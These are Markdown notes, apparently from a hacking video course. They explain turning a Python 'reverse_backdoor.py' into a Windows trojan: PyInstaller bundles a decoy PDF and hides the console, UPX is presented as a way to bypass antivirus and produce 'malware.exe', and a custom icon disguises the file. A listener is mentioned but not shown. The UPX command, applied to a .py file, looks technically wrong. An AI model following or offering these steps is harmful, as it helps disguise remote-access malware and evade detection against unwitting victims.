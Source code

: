 ### Converting in binary code of OS

#### Windows

In native OS 
```batch
python.exe -m pip install pyinstaller
pyinstaller script.py --onefile
```

script will create in `dist` directory / folder, 
and run without python installation on computer.

If you make any chnages to script.py compile it again,
 don't need to prompt pop up disable by 

```
python.exe script.py --onefile --noconsole
```

#### Linux

**Video #09**
**Creating a trojan by embedding files in program code**

ON linux computer
compiling with pyinstaller.

# Make sure to run listenser.py 

```bash
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf" --onefile --noconsole reverse_backdoor.py
```


**Video #10**
**Bypassing antivirus program**

**Video #11**
**Bypassing antivirus program**

Using upx for compling in kali linux

```bash
upx reverse_backdoor.py -o malware.exe
```
here `upx` is command or tool or Package which we call and `-o` means output file name

**Video #12**
**Adding Icon for program**

Download or Create or Edit a image 
Convert image to `.ico` extension

```
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;," --onefile --noconsole  --icon  /path/icon.ico  reverse_backdoor.py
```